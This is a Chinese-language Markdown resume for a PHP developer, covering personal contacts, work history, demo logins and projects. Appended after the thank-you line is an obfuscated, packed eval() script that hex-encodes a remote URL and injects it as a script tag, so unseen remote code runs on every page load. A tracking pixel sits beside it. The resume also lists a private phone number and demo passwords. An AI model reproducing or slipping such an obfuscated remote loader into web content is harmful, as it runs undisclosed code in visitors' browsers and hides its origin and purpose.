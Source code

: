 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：2年+
 - 最高学历：高中
 - 期望职位：PHP开发工程师
 - 期望城市：上海 浦东
 - 期望薪资：10000

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海幺令巴网络科技有限公司 （2015年5月 ~ 2015年7月）

### [快讯通手机APP数据接口](http://naotu.baidu.com/viewshare.html?shareId=awbv4fveqha8)
- 负责APP数据接口的开发；
- 负责APP内嵌网页的开发以及控制器方法的重写；

### [站点及SEO管理系统](#)
- 该系统的主要目的是为了管理公司的客户网站以及域名，此外还包括服务器、注册商、SEO优化的管理。
- SEO优化又包括SEO任务、关键词、外链文章、资源站等管理，以及对外链专员发布外链记录的管理。
- 图片演示：http://pan.baidu.com/s/1jGy7HbC


## 自由职业 （2014年8月 ~ 2015年3月）

### [WinIIS广告推广平台](http://www.an56.net/adsense/)
 - 演示账户：adsense 密码：123456
 - 类似于“淘宝客”，按成交计费的推广模式(CPS)

### [微信公众号管理平台](http://app.ah.cn/weixin/admin/?m=Msg)
 - 使用ThinkPHP框架开发
 - 根据关键词、正则表达式判断请求，回复相应内容
 - 自定义拓展接口，实现天气、快递等查询
 - [测试自动回复](http://app.ah.cn/weixin/test/)


## 合肥一浪网络科技有限公司 （2013年6月 ~ 2014年7月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。

---

# 开源项目和作品

## 开源项目

 - [parse_urls](http://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](http://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp+Access

## 业余作品

 - [自助友情链接交换平台](http://link.an56.org/) : 后端使用ThinkPHP 3.2.3开发；前端使用Bootstrap框架。
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + Angular + Bootstrap
 - [CKEditor表情插件](http://app.an56.org/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)

---

# 技能清单

以下均为我熟练使用的技能

- Web开发：PHP / Asp
- Web框架：ThinkPHP
- 前端框架：jQuery / Bootstrap / Angular
- 开发工具：Sublime Text / Git / Firebug
- 数据库相关：MySQL / SqLite / MSSQL
- 云和开放平台：SAE / OpenShift / QQ互联 / 微信公众平台

---

# 自我描述
- 熟练使用PHP语言开发网站应用，熟悉ThinkPHP框架；
- 精通ASP程序开发，开发过CMS、CRM等系统；
- 能快速开发搭建中小型企业网站，代码编写规范；
- 精通DIV+CSS架构网页，熟练使用jQuery、Ajax、Bootstrap；
- 熟悉SQL语句优化，正则表达式，Git，Angular；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。

---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>